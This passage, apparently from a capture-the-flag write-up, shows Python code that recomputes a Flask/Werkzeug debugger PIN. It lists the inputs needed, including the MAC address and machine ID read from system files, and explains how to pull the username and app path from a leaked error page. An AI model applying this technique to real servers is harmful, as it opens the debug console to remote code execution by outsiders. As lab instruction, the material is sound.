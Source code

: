 ```python
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

So to generate the PIN ourselves, we need the following variables:
```python
probably_public_bits = [
    username,
    modname,
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]
```
- `username`: the name of the user running the app
- `modname`: is always `flask.app`
- `getattr(app, '__name__', getattr(app.__class__, '__name__'))`: is always `Flask`
- `getattr(mod, '__file__', None)`: the absolute path of `app.py` in the flask directory.

- `str(uuid.getnode())`: the MAC address of the current computer in decimal representation
- `get_machine_id()`: the value in `/etc/machine-id` or if empty in `/proc/sys/kernel/random/boot_id`, in some cases it is necessary to append the string on the first line, after the third slash in `/proc/self/cgroup`

To get the username, and the absolute path of `app.py`, we can check the information that is exposed by the error page.
On this page, we can see that the error is first triggered in `/home/htmlfetcher/.local/lib/python3.6/site-packages/flask/app.py`, this by itself is the absolute path of `app.py`, but we can also see that it is located in `/home/htmlfetcher`, with this we can assume that the user running this app is called `htmlfetcher`.
